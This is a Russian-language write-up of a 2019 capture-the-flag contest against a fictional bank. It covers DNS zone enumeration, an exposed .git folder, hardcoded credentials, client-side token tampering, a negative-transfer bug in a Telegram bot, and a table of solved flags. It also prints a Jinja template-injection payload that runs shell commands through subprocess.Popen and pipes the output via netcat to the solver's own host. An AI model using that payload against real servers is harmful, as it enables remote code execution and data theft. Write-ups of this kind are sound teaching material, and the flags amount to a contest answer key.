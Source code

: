 # UPML CTF 2019 (23 февраля)

Этот репозиторий содержит райтапы, подготовленные нашей командой.

## Part One
**Здесь разобраны:** Послание сисадмина, DNS-сервера, Исходные коды, Сервер исходных
кодов, Проникновение, Hidden backdoor [Дорешивание]

Для получения DNS-записей домена устанавливаем и используем `fierce`:
```
$ pip install fierce
$ fierce --domain bankbank.exposed
```
В итоге на выходе получаем следующее:
```
NS: ns1.bankbank.exposed. ns2.bankbank.exposed.
SOA: ns1.bankbank.exposed. (95.179.139.209)
Zone: success
{<DNS name @>: '@ 2560 IN SOA ns1 hostmaster 1550888583 600 300 1048576 2560\n'
'@ 1200 IN NS ns1\n'
'@ 1200 IN NS ns2\n'
'@ 300 IN A 95.179.139.209\n'
'@ 300 IN MX 10 mx.yandex.net.\n'
'@ 300 IN TXT "yandex-verification: 70ddd42d9c7067ef"\n'
'@ 300 IN TXT "v=spf1 redirect=_spf.yandex.net~all"\n'
'@ 300 IN TXT "uctf_digg3r_3xp3rt_or_n0t"',
<DNS name mail._domainkey>: 'mail._domainkey 300 IN TXT
"v=DKIM1; k=rsa; t=s; '
'p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDUwGoNveBrd82bnyKs9Nk8z1p7sqiMVfRNhZCQWAq79a0VIibyBft4Pz7SAqFmsNvs" '
'"7TNgZ6kCfYp88ZPFbkntUP8YS9rvuPSMPZTZhQk97vZUfnKklRFZqIFk6UfgzxzwuEx1A9PNUXwUdNXkzpDVKY422B5Ioxqun0jGzLR9MwIDAQAB"',
<DNS name botapi>: 'botapi 300 IN A 95.179.139.209',
<DNS name earn>: 'earn 300 IN A 95.179.139.209',
<DNS name jobs>: 'jobs 300 IN A 95.179.139.209',
<DNS name litsec>: 'litsec 300 IN A 95.179.139.209',
<DNS name ns1>: 'ns1 300 IN A 95.179.139.209',
<DNS name ns2>: 'ns2 300 IN A 95.179.139.209',
<DNS name qr>: 'qr 300 IN A 95.179.139.209',
<DNS name random>: 'random 300 IN A 95.179.139.209',
<DNS name store>: 'store 300 IN A 95.179.139.209',
<DNS name totallysecret-64354262612>: 'totallysecret-64354262612 300 IN TXT ''"uctf_r341_digg3r_3xp3rt"',
<DNS name www>: 'www 300 IN A 95.179.139.209'}
```
Так мы получаем сразу два флажка - для тасков "Послание сисадмина" и "DNS-сервера". 

Помимо найденных флагов обнаруживаем поддомен `botapi.bankbank.exposed`, который, как несложно догадаться, связан с ботом Telegram. А именно – здесь открыта папка `.git` (в чем несложно убедиться, получив 403 вместо типичного 404). В папке репозитория выходим на файл `config` и, таким образом, выходим на след [репозитория](https://gitlab.com/bank-it-dept/botapidemo) на GitLab. Здесь получаем еще два флага (для тасков "Исходные коды" и "Сервер исходных кодов") – один находится в файле `secret.txt` в ветке `testing` репозитория (зашифрованный шифром Цезаря), второй – в описании группы https://gitlab.com/bank-it-dept. 

Наконец, чуть позже в этой же группе создают репозиторий CRM (с исходниками `crm.bankbank.tech`), в которых можно найти найти много чего интересно (например, токен от Telegram-бота и заявленный авторами бэкдор). Во-первых, в шаблоне `templates/crm.html` находим еще один флаг. Во-вторых, в обработчике для URI `/crm/` видим бэкдор, уязвимый перед Template Injection, благодаря чему мы может добиться исполнение произвольного кода (правда, для этого нужно залогиниться в CRM, что, впрочем, несложно - в исходниках находим захардкоженную пару логин-пароль и токен бота, через который можно пересылать себе коды двухфакторной авторизации), результат выполнения которого можно получить самыми разными способами. Например, в случае наличия выделенного сервера запускаем `netcat` в режиме прослушивания:
```
$ nc -lvp 1337
```
Теперь обращаемся по URL
`https://crm.bankbank.tech/crm/?fdata={{''.__class__.__mro__[1].__subclasses__()[259]('<your_command> | nc <your_ip> 1337', shell=True)}}`. 
Индекс 259 подобран так, чтобы классом, от которого вызывается конструктор, был `subprocess.Popen` (этот индекс по каким-то причинам может меняться время от времени, однако подобрать его самостоятельно не составит большого труда). Таким образом, можно прочитать файл `flag.txt` (о котором можно догадаться, узнать из `.gitignore` или с помощью `ls`) и получить заветный флажок. Если же выделенного сервера нет, то получить содержимое файла можно, например, с помощью первого попавшегося онлайн-сниффера, используя при этом `wget` (содержимое можно передавать как GET-параметр запроса). 

## Part Two
**Здесь разобраны:** Правила, Staff only, Ожидание, Ограбление 1.0. 

Давайте прочитаем [информацию о тарифах](https://bankbank.exposed/assets/rules.pdf). Во-первых, на всех страницах документа мы видим [ссылку на копию документа](https://crm.bankbank.tech/assets/attachments/13541561415311513/terms-20190223.pdf). Директории не защищены от просмотра содержимого в них, поэтому совершенно несложно найти [файл](https://crm.bankbank.tech/assets/attachments/31632615315136161/tokens.txt), в котором на одной из строчек находим флаг. Во-вторых, на пятой странице документа (пункт 2.10) видим упоминание Telegram-бота банка. Наконец, на 38 странице (пункт 13.37) видим завуалированный флаг: униформа, Чарли, танго, фокстрот, браво, униформа, Ромео, эхо, альфа, униформа, Чарли, Ромео, альфа, танго, сьерра, Лима, Оскар, сьерра, эхо. Переводим на английский, берем первые буквы и получаем флаг.

Все нижеописанное работает лишь в режиме инкогнито (скорее всего, так и было задумано авторами CTF). 

Для начала нам нужно сгенерировать токен. Проблема здесь в том, что из предлагаемых сайтом тарифов ни один не подходит (мы просто не зарегистрируем счет за разумное время). Посмотрим на содержимое файла https://bankbank.exposed/assets/js/form.js – он отвечает за всю клиентскую часть при генерации токена. На 32 строчке кода видим следующее:
```
data.append('token', '${~~(Date.now() / 1000)}.${p || 3}')
```
Данный код в параметр `token` при генерации токена подставляет текущий UNIX Timestamp, нацело поделенный на 1000, и тип счета, разделенные точкой. Несложной отладкой можно убедиться, что тип счета в обычной ситуации может принимать только значения `2` и `3`. Заменив эту строчку кода на следующую, а затем просмотрев ответ сервера, мы получим валидный токен, который можно регистрировать у `@bank_bank_bot`:
```
data.append('token', '${Date.now()}.1')
```
В описании таска мы получаем промокод, который можно использовать для получения очередного флага. Помимо этого, бот не проверяет переводимую сумму на положительность. Поэтому переводим на любую карту (мы использовали `1337 1337 1337 1337`) `–100000` рублей и получаем (в силу комиссии) `200000` рублей. Их можно использовать для покупки украинского флага (и, соответственно, получения флага для CTF). 

Краткая сводка:

| Ветка | Название таска | Категория | Флаг |
| --- | --- | --- | ---- |
| 0 | Послание сисадмина (admin) | Network 100 | `uctf_digg3r_3xp3rt_or_n0t` |
| 0 | Hidden backdoor (backdoor) | Web 250 | `uctf_we_should_go_deeper` |
| 0 | CEO (ceo) | Recon 150 | `uctf_i_kn0w_the_staff` |
| 0 | Исходные коды (code) | Web 100 | `uctf_very_common_git_task` |
| 0 | Сервер исходных кодов (codeserver) | Misc 100 | `uctf_remote_origin_located` |
| 0 | Обман системы (corpflag) | Telegram 400 | `Not now` |
| 0 | DNS сервера (dns) | Network 200 | `uctf_r341_digg3r_3xp3rt` |
| 0 | Ограбление 1.0 (grab1) | Telegram 100 | `uctf_o_v1_hacker` |
| 0 | Ограбление 2.0 (grab2) | Telegram 200 | `Not now` |
| 0 | Глубина (inbox) | Recon 200 | `uctf_instanda` |
| 0 | Staff only (insider) | Recon 500 | `uctfitwasfakecryptotask0` |
| 0 | Hidden | Hidden | `Not now` |
| 0 | Проникновение (naive) | Joy 300 | `uctf_hack3d_supp0rt` |
| 0 | Hidden | Hidden | `Not now` |
| 0 | Скайп (skype) | Recon 50 | `Not now` |
| 0 | Hidden | Hidden | `Not now` |
| 0 | Welcome aboard (start) | Misc 10 | `uctfgoahead` |
| 0 | Hidden | Hidden | `Not now` |
| 0 | Правила (tos) | Misc 150 | `uctfbureaucratslose` |
| 0 | Ожидание (wait) | Web 100 | `uctf_kaef_mode_on` |
| 0 | Hidden | Hidden | `Not now` |

Как обычно, оптимальность решений не гарантируем. :)
